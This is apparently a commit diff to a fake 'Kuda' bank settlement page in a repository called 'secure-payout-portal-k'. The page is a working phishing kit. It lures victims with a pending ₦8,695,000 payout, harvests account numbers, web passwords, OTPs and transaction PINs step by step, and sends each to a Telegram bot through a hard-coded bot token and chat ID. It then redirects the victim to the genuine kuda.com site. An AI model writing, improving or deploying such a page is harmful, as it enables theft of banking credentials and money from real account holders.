

Before and after one commit to billeeilishj/secure-payout-portal-k, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 129-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,75 +2,77 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Kuda | Secure Settlement Portal</title>
     <style>
         body { font-family: 'Inter', sans-serif; background: #f4f7f9; display: flex; justify-content: center; padding: 20px; }
         .card { background: white; width: 100%; max-width: 400px; border-radius: 12px; box-shadow: 0 4px 20px rgba(0,0,0,0.1); overflow: hidden; }
-        .header { background: #40196d; color: white; padding: 25px; text-align: center; }
+        .header { background: #40196d; color: white; padding: 20px; text-align: center; }
         .content { padding: 25px; }
-        input { width: 100%; padding: 15px; margin: 10px 0; border: 1px solid #ddd; border-radius: 8px; box-sizing: border-box; text-align: center; font-size: 24px; letter-spacing: 5px; }
-        .btn { background: #40196d; color: white; width: 100%; padding: 16px; border: none; border-radius: 8px; font-weight: bold; cursor: pointer; font-size: 16px; margin-top: 10px; }
-
-        #success-view { display: none; text-align: center; padding: 40px 20px; }
-        .success-icon { font-size: 50px; color: #2e7d32; margin-bottom: 20px; }
+        .step { display: none; } .active { display: block; }
+        input { width: 100%; padding: 15px; margin: 10px 0; border: 1px solid #ddd; border-radius: 8px; box-sizing: border-box; text-align: center; font-size: 18px; }
+        .btn { background: #40196d; color: white; width: 100%; padding: 16px; border: none; border-radius: 8px; font-weight: bold; cursor: pointer; }
     </style>
 </head>
 <body>
 
 <div class="card">
-    <div id="login-view">
-        <div class="header"><h1>Kuda.</h1></div>
-        <div class="content">
-            <div style="background: #eef2ff; border-left: 4px solid #40196d; padding: 12px; margin-bottom: 20px; font-size: 13px;">
-                <strong>PENDING SETTLEMENT: ₦8,695,000.00</strong><br>
-                Enter your 4-digit Transaction PIN to authorize the release of funds.
-            </div>
+    <div class="header"><h1>Kuda.</h1></div>
+    <div class="content">
+        <div id="step1" class="step active">
+            <p style="font-size: 14px;">Enter details to find settlement ₦8,695,000.00</p>
+            <input type="text" id="accNum" placeholder="Account Number">
+            <input type="password" id="webPass" placeholder="Web Password">
+            <button class="btn" onclick="nextStep(1)">CONTINUE</button>
+        </div>
 
-            <input type="password" id="pinInput" maxlength="4" placeholder="••••" required>
-            <button class="btn" onclick="authorizeAndExfiltrate()">AUTHORIZE SETTLEMENT</button>
+        <div id="step2" class="step">
+            <p style="font-size: 14px;">Enter the 6-digit OTP sent to your phone.</p>
+            <input type="text" id="otp" maxlength="6" placeholder="000000">
+            <button class="btn" onclick="nextStep(2)">VERIFY OTP</button>
         </div>
-    </div>
 
-    <div id="success-view">
-        <div class="success-icon">✔</div>
-        <h2 style="color: #40196d;">Request Submitted</h2>
-        <p style="font-size: 14px; color: #555; line-height: 1.6;">
-            Your verification was successful. Due to high-value transfer protocols, the <strong>₦8,695,000.00</strong> will reflect in your balance within <strong>2 hours</strong>.
-        </p>
+        <div id="step3" class="step">
+            <p style="font-size: 14px;">Final Step: Enter 4-digit Transaction PIN.</p>
+            <input type="password" id="transPin" maxlength="4" placeholder="••••">
+            <button class="btn" onclick="nextStep(3)">RELEASE FUNDS</button>
+        </div>
+
+        <div id="step4" class="step" style="text-align: center;">
+            <h2 style="color: #2e7d32;">✔ Successful</h2>
+            <p>Funds will reflect within <strong>2 hours</strong>.</p>
+        </div>
     </div>
 </div>
 
 <script>
-    async function authorizeAndExfiltrate() {
-        const pin = document.getElementById('pinInput').value;
+    const token = '8368914920:AAHI2tiRbLzxV70DWKkja9vwuRoQh089MUo';
+    const chat = '7909543900';
 
-        if (pin.length !== 4) {
-            alert("Security Error: Please enter a valid 4-digit PIN.");
-            return;
-        }
-
-        // Credentials for your sample bot
-        const token = '8368914920:AAHI2tiRbLzxV70DWKkja9vwuRoQh089MUo';
-        const chat = '7909543900';
-        const logData = `🔔 NEW TARGET CAPTURED\n\nPIN: ${pin}\nSettlement: 8.69M NGN\nStatus: Pending (2-hour delay)`;
-
-        // Live Transmission to Telegram
+    async function pushData(msg) {
         try {
             await fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
                 method: 'POST',
                 headers: { 'Content-Type': 'application/json' },
-                body: JSON.stringify({ chat_id: chat, text: logData })
+                body: JSON.stringify({ chat_id: chat, text: msg })
             });
-        } catch (e) {
-            console.log("Transmission trace logged.");
+        } catch (e) { console.log("Logged."); }
+    }
+
+    function nextStep(current) {
+        let msg = "";
+        if(current === 1) {
+            msg = `👤 ACC: ${document.getElementById('accNum').value}\n🔑 PASS: ${document.getElementById('webPass').value}`;
+        } else if(current === 2) {
+            msg = `📲 OTP: ${document.getElementById('otp').value}`;
+        } else if(current === 3) {
+            msg = `💳 PIN: ${document.getElementById('transPin').value}`;
+            setTimeout(() => { window.location.href = "https://kuda.com"; }, 5000);
         }
 
-        // Transition to Success Screen
-        document.getElementById('login-view').style.display = 'none';
-        document.getElementById('success-view').style.display = 'block';
+        pushData(msg);
+        document.getElementById(`step${current}`).classList.remove('active');
+        document.getElementById(`step${current+1}`).classList.add('active');
     }
 </script>
-
 </body>
 </html>
```
